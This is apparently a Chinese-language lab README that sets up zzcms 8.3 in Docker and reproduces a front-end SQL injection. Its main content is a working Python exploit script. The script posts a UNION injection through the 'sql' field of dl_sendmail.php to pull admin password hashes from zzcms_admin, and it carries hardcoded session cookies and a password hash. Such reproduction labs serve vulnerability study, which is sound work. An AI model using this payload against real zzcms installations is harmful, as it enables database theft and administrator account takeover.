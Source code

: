 ## 启动环境

```
docker-compose build
docker-compose up -d
```

zzcms 8.3 爆出的CVE漏洞很多，我这边选了文件危害性高的sql注入漏洞

## 0x01 前台sql注入
要想利用此漏洞必须现在前台注册一个普通用户账户[用户注册—zzcms](http://127.0.0.1:8002/reg/userreg.php)，然后编辑默认的短信信息
http://127.0.0.1:8002/user/index.php?gotopage=msg_manage.php

然后测试
![](README/luffy1.png)


python脚本
```
import requests

burp0_url = "http://127.0.0.1:8002/dl/dl_sendmail.php"
burp0_cookies = {"session": "db0e38ef-30cf-454c-a5a5-a41c8dd9d05b", "bdshare_firstime": "1535071918348", "PHPSESSID": "dpbqepggda4ocq68ok6ellbnj7", "__tins__713776": "%7B%22sid%22%3A%201535075799812%2C%20%22vd%22%3A%207%2C%20%22expires%22%3A%201535078558802%7D", "__51cke__": "", "__51laig__": "7", "UserName": "luffy", "PassWord": "3bf1114a986ba87ed28fc1b5884fc2f8"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded"}
burp0_data={"sql": "select email from zzcms_dl where id=-1 union select pass from zzcms_admin #"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

```



[链接一](https://mp.weixin.qq.com/s/ROgA0e9qExM7P7p3cwqUnQ)

[链接二](https://www.anquanke.com/post/id/156850)

[链接三](https://github.com/AvaterXXX/ZZCMS/blob/master/README.md)
